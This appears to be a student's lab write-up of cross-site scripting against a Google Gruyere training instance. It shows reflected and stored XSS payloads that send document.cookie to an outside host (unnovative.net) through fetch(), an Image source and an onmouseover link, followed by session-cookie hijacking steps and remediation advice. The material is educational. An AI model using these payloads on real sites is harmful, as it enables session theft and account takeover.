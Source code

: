 + In the URL bar, delete any '#' character and text that may follow it
+ Append something else to the URL, like `1+1 = 2` or `<h2>hello</h2><h1>world</h1>`

Notice that the error message includes whatever junk we put into the URL.
That's a curious thing about the HTML tags being rendered.  I wonder what
happens if we put a `script` tag in there?

    <script>alert(document.cookie)</script>

Instead of annoying the user with a pop-up box which will scare them, let's try
to inject a script which will send them (and their cookie) to a website I
control.  If I can trick people into visiting

    http://unnovative.net/cookie=...

I could collect information that may be used to impersonate them on this site.

+   In the URL bar, append this code to the address
    ```
    <script>fetch("http://unnovative.net/cookie="+document.cookie)</script>
    ```
+   Open the Network tab and see if the browser makes a request to unnovative.net

Oh good!  By some combination of the browser and this site, I cannot simply use
the `fetch()` API to surreptitiously steal their session cookie.  It's a
*really* good thing that there are absolutely no other ways to make a browser
perform a GET request.

    <script>i=new Image();i.src="http://unnovative.net/cookie="+document.cookie</script>

Oh, forgot about that one...


+   "New Snippet"
+   Input this text into the `textarea`:
    ```
    <a href="https://pages.nist.gov/800-63-3/sp800-63b.html#sec7"
        onmouseover="i=new Image(); i.src='http://unnovative.net/'+document.cookie"
        >Read the NIST guidelines for securing web app sessions</a>
    ```
+   Open a private Firefox window and visit the base Gruyere URL for my instance
+   Create a new user account and log in
+   Click **jimmy**'s *"helpful"* link
+   Review the server logs on the malicious server
+   Return to the original Firefox tab (**jimmy**'s account)
    +   Replace the session cookie
    +   Refresh the page

### Remediation

*   Sanitize *all* user input that appears on the page
    *   This extends even to the *URL* from the address bar; it comes from the user!
*   Validate data supplied by the user both in the **client** and on the **server**
    *   Client-side validation is a *nice-to-have* feature
    *   Don't rely solely on it, as the client is, after all, controlled by the attacker
*   Server-side validation is the only validation you can be sure of
    *   Even so, it's difficult to anticipate all possibilities
    *   Always to monitor server logs to be on the lookout for anomalies that point to weaknesses
